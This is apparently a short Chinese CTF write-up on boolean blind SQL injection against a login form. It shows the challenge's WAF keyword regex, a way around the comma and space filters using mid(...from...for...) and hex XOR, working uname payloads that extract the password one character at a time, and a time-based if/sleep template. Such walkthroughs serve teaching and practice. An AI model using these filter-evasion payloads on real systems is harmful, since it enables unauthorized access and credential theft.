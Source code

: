### 布尔型盲注

尝试使用payload

uname=admin'^sleep&passwd=123&submit=login

发现返回

waf:/sleep|benchmark|=|like|regexp|and|\|%|substr|union|\s+|group|floor|user|extractvalue|UpdateXml|ord|lpad|rpad|left|>|,|ascii/i !!! (trust me,no one can bypass it)

本地构造一下即可绕过

```
select mid(pass,1,1); 按字查询

利用hex()和mid(``from()for()) 
```

#### 绕过方式

```
绕过逗号和空格过滤

min(\`passwd`from(1)for(1))等价于mid(passwd,1,1)


```

#### payload构造

```
布尔型盲注
判断注入点
uname=admin'%26%260hex('f')^hex('a')%23
uname=admin'%26%260hex('f')^hex('f')%23

构造爆破语句
uname=admin'&&hex(hex(mid(`passwd`from(1)for(1)))from(1)for(1))^hex('1')^0#
uname=admin'&&hex(hex(mid(`passwd`from(1)for(1)))from(1)for(1))^hex('6')^0#

```



其他盲注

if(表达式,sleep(1),sleep(0));